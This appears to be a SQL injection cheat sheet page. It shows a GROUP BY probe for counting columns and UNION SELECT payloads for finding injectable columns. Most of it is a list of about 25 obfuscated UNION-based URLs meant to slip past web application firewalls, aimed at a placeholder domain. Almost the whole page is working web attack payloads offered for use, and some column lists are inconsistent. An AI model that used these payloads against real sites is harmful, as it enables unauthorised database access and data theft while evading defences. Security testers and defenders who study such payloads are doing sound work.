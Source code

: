 `http://domain.com.br/index.php?id=1' GROUP BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100-- -`

The error shows that the database has 14 columns

> Unknown column '**15**' in 'group statement'

Given queries finds which of 14 columns is vulnerable.

`https://domain.com.br/index.php?id=1& n=19901' Union Select 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- -`  
`https://domain.com.br/index.php?id=1& n=-19901' Union Select 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- -`

Same payloads but built for WAF bypassing using UNION based queries:

```
    http://domain.com/index.php?id=1& n=19901' /*!50000%55nIoN*/ /*!50000%53eLeCt*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' %55nion(%53elect 1,2,3) 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1&+n=19901'+union+distinctROW+select+1,2,3,4,5,6,7,8,9,10,12,13,14--+-  
    http://domain.com/index.php?id=1& n=19901' #?uNiOn + #?sEleCt 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' + #?1q %0AuNiOn all#qa%0A#%0AsEleCt 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*!%55NiOn*/ /*!%53eLEct*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' +un/**/ion+se/**/lect 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' +?UnI?On?+'SeL?ECT? 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901'(UnIoN)+(SelECT)+1,2,3,4,5,6,7,8,9,10,12,13,14--+-  
    http://domain.com/index.php?id=1& n=19901' +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' %55nion(%53elect 1,2,3,4,5,6,7,8,9,10,12,13,14)-- -  
    http://domain.com/index.php?id=1& n=19901' /**//*!12345UNION SELECT*//**/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /**//*!50000UNION SELECT*//**/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /**/UNION/**//*!50000SELECT*//**/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*!50000UniON SeLeCt*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' union /*!50000%53elect*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*--*/union/*--*/select/*--*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' union (/*!/**/ SeleCT */ 1,2,3,4,5,6,7,8,9,10,12,13,14)-- -  
    http://domain.com/index.php?id=1& n=19901' /*!union*/+/*!select*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /**/uNIon/**/sEleCt/**/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' +%2F**/+Union/*!select*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /**//*!union*//**//*!select*//**/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*!uNIOn*/ /*!SelECt*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /**/union/*!50000select*//**/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
```